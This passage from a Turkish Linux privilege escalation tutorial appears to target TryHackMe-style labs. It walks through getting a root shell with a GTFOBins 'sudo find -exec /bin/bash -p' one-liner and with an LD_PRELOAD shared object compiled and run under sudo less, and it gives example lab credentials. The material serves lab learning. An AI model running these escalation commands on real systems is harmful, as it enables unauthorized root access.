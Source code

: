     Bu komut çalıştırıldığı anda:
    
    - `sudo`, `apache2`'yi `root` yetkileriyle başlatır.
    - `env_keep` sayesinde `LD_PRELOAD` değişkeni korunur.
    - Dinamik linker, `apache2`'den önce bizim `shell.so` dosyamızı yükler.
    - `shell.so` içindeki `_init()` fonksiyonu çalışır.
    - `_init()` fonksiyonu yetkileri `root`'a ayarlar ve bir `bash` kabuğu açar.
    - Sonuç: Karşımıza `root` kabuğu çıkar.
    
    Bash
    
    ```
    root@machine:~# id
    uid=0(root) gid=0(root) groups=0(root)
    ```
    

### Özet ve Pratik Senaryo

Hadi adım adım bir senaryo oluşturalım:

1.  **Hedef Sisteme Sızdın:** Kullanıcı `karen`, şifre `Password1` ile SSH bağlantısı yaptın. `ssh karen@<makine_ip>`
    
2.  **İlk Kontrol:** Yetkilerini kontrol et. `karen@machine:~$ sudo -l` *Çıktıda diyelim ki `/usr/bin/find` ve `env_keep+=LD_PRELOAD` ile `/usr/bin/less` gördün.*
    
3.  **Yol 1: Kolay Yol (GTFOBins)**
    
    - `sudo -l` çıktısında `find` gördüğün için GTFOBins'e bak.
    - Oradaki komutu kopyala ve yapıştır: `karen@machine:~$ sudo find . -exec /bin/bash -p \;`
    - Komut isteminin `$`'dan `#`'a döndüğünü ve `whoami` çıktısının `root` olduğunu gör. **Başarılı!**
4.  **Yol 2: Teknik Yol (`LD_PRELOAD`)**
    
    - `sudo -l` çıktısında `env_keep+=LD_PRELOAD` ve `/usr/bin/less` gördün.
    - Bir C dosyası oluştur: `nano shell.c` ve yukarıdaki C kodunu içine yapıştır.
    - Dosyayı derle: `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
    - Saldırıyı başlat: `sudo LD_PRELOAD=./shell.so /usr/bin/less`
    - Karşına çıkan `root` kabuğunun keyfini çıkar. **Başarılı!**

### Sana Tavsiyelerim

- **Pratik Yap:** Bu konuyu en iyi öğrenmenin yolu, TryHackMe, Hack The Box gibi platformlardaki makineleri çözmektir. Özellikle Linux Privilege Escalation odalarına odaklan.
- **GTFOBins'i Yer İmlerine Ekle:** Bu site senin en iyi dostun olacak. Bir komut gördüğünde refleks olarak burada aramayı alışkanlık haline getir.
- **Temelleri Anla:** `LD_PRELOAD` gibi bir tekniği sadece ezberleme. Neden çalıştığını, `env_keep`'in ne anlama geldiğini anlamaya çalış. Bu, benzer ama farklı durumlarla karşılaştığında çözüm üretebilmeni sağlar.

&nbsp;

* * *

### `LD_PRELOAD`'u Bir Analoji ile Anlayalım 🧑‍🍳

Bir programı, bir tarifi uygulaması gereken bir **aşçı** olarak düşün. Aşçının tarifi uygulamak için belirli **yardımcılara** (doğrayıcı, karıştırıcı vb.) ihtiyacı vardır. Bu yardımcılar, Linux sistemindeki **paylaşımlı kütüphanelerdir (`.so` dosyaları)**. Aşçı (program) çalışmaya başladığında, işletim sistemi ona standart yardımcılarını (standart kütüphaneleri) verir.
